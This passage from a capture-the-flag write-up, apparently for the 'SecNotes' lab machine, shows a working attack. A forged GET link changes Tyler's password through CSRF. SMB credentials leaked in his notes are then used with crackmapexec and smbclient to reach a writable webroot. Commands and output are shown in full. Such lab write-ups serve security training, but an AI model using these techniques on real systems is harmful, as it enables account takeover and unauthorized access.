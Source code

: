 ### 3. Access Tyler's account
Firstly get the POST request for the password, which looks something like this:
```
POST /change_pass.php HTTP/1.1
Host: 10.129.48.94
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Origin: http://10.129.48.94
Connection: close
Referer: http://10.129.48.94/change_pass.php
Cookie: PHPSESSID=1qe92gr8o3bisgjg01h95mba8c
Upgrade-Insecure-Requests: 1

password=123456&confirm_password=123456&submit=submit
```
The request can be converted to a GET in BurpSuite, and then sent in a message to Tyler. This message looks like: 
http://10.129.48.94/change_pass.php?password=123456&confirm_password=123456&submit=submit.  
  
Wait a few minutes then login with `tyler:123456`. Access is granted.  
Once in, Tyler has three notes. One is a recipe for "Mimi's Sticky Buns", one is a list of years, and one is a note with what looks to be SMB credentials:
```
\\secnotes.htb\new-site
tyler / 92g!mA8BGjOirkL%OG*&
```
The creds do indeed give access to SMB.
```bash
┌──(kali㉿kali)-[10.10.14.3]-[~/Desktop]
└─$ crackmapexec smb 10.129.48.94 -u tyler -p "92g\!mA8BGjOirkL%OG*&" --shares
SMB         10.129.48.94    445    SECNOTES         [*] Windows 10 Enterprise 17134 (name:SECNOTES) (domain:SECNOTES) (signing:False) (SMBv1:True)
SMB         10.129.48.94    445    SECNOTES         [+] SECNOTES\tyler:92g!mA8BGjOirkL%OG*& 
SMB         10.129.48.94    445    SECNOTES         [+] Enumerated shares
SMB         10.129.48.94    445    SECNOTES         Share           Permissions     Remark
SMB         10.129.48.94    445    SECNOTES         -----           -----------     ------
SMB         10.129.48.94    445    SECNOTES         ADMIN$                          Remote Admin
SMB         10.129.48.94    445    SECNOTES         C$                              Default share
SMB         10.129.48.94    445    SECNOTES         IPC$                            Remote IPC
SMB         10.129.48.94    445    SECNOTES         new-site        READ,WRITE
```
Access the share that is read/writable.
```bash
┌──(kali㉿kali)-[10.10.14.3]-[~/Desktop]
└─$ smbclient -U tyler \\\\secnotes.htb\\new-site                                                                                                                                            1 ⨯
Enter WORKGROUP\tyler's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat May 29 00:49:56 2021
  ..                                  D        0  Sat May 29 00:49:56 2021
  iisstart.htm                        A      696  Thu Jun 21 11:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 11:26:03 2018

                7736063 blocks of size 4096. 3318466 blocks available
```
This appears to be the webroot for the server running on port 8808.
